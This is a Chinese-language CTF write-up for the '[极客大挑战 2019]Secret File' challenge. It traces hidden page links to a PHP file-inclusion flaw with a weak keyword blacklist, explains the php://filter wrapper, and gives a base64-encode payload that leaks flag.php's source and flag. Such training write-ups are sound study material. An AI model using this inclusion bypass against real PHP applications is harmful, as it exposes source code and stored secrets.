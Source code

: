 # [极客大挑战 2019]Secret File

查看源代码后发现 `<a id="master" href="./Archive_room.php" style="background-color:#000000;height:70px;width:200px;color:black;left:44%;cursor:default;">Oh! You found me</a>`  
尝试访问 `/Archive_room.php`，源码中 `<a id="master" href="./action.php" style="background-color:red;height:50px;width:200px;color:#FFFFFF;left:44%;">`，访问 `/action.php`，直接跳转到了 `/end.php`，抓包看看发送了什么。

```html
<html>
<!--
   secr3t.php        
-->
</html>
```

提示了路径，访问 `/secr3t.php`

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

考一个文件包含。

```txt
strstr
(PHP 4, PHP 5, PHP 7, PHP 8)

strstr — 查找字符串的首次出现

stristr
(PHP 4, PHP 5, PHP 7, PHP 8)

stristr — strstr() 函数的忽略大小写版本
```

过滤了 `../, tp, input`，没有过滤 `filter`  

## php://filter是什么

来自官方文档的解释：

>php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。
<https://www.php.net/manual/zh/wrappers.php.php>

简单通俗的说，这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

协议参数
具体有以下几种参数：
|名称|描述|
|---|---|
|`resource=<要过滤的数据流>`|这个参数是必须的。它指定了你要筛选过滤的数据流。|
|`read=<读链的筛选列表>`|该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。|
|`write=<写链的筛选列表>`|该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。|
|`<；两个链的筛选列表>`|任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。|
例如

```php
php://filter/read=convert.base64-encode/resource=index.php
```

读取文件 `index.php`，并进行 base64 编码，防止文件被包含的时候被当做 php 代码执行  
因此本题 payload

```txt
/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

base64 解码得到的内容

```html
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{f1a3ba57-b997-43c6-b7b5-577c258974f1}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>


```

得到 flag `flag{f1a3ba57-b997-43c6-b7b5-577c258974f1}`
